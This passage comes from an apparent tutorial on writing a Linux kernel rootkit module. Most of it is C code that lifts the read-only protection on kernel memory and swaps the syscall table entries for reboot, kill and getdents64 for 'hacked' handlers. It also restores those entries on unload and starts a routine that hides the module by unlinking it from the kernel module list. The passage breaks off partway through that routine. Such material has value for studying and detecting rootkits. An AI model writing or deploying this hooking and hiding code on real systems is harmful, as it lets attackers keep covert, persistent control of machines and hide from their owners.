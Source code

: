 When hooking, it is necessary to remove the read-only restrictions, rewrite the addresses corresponding to the syscall table, and then revert them back to read-only after completion.
```c=
static inline void protect_memory(void)
{
    update_mapping_prot(__pa_symbol(start_rodata), (unsigned long)start_rodata, section_size, PAGE_KERNEL_RO); // Read - only
    printk(KERN_INFO "Memory protected\n");
}

static inline void unprotect_memory(void)
{
    update_mapping_prot(__pa_symbol(start_rodata), (unsigned long)start_rodata, section_size, PAGE_KERNEL); // Read - write
    printk(KERN_INFO "Memory unprotected\n");
}

static int hook(void){
    unprotect_memory();

    __sys_call_table[__NR_reboot] = (unsigned long) &hacked_reboot;
    __sys_call_table[__NR_kill] = (unsigned long) &hacked_kill;
    __sys_call_table[__NR_getdents64] = (unsigned long) &hacked_getdents64;

    protect_memory();
    return 0;
}

```
Before removing the module, unhooking the syscall is necessary. This involves restoring the original addresses corresponding to the syscall table.
```c=
static void __exit rootkit_exit(void)
{
    
    unprotect_memory();

    __sys_call_table[__NR_reboot] = (unsigned long)orig_reboot; 
    __sys_call_table[__NR_kill] = (unsigned long) orig_kill;
    __sys_call_table[__NR_getdents64] = (unsigned long) orig_getdents64;

    protect_memory();

    pr_info("%s: removed\n", OURMODNAME);
    cdev_del(kernel_cdev);
    unregister_chrdev_region(major, 1);
}
```
---
> Let's go deeper into the functions we talked before

**Hide/Unhide module**
Using 'hidden' to determine whether the current state is hidden or unhidden. If it's unhidden, remove oneself from the Linked List and store the previous one for later reconnection.
```c=
// hidden module part
static struct list_head *prev_module;
static short hidden = 0;
void module_show(void)
{
    /* Add the saved list_head struct back to the module list */
    list_add(&THIS_MODULE->list, prev_module);
    hidden = 0;
    printk(KERN_INFO "module unhidden\n");
}
```
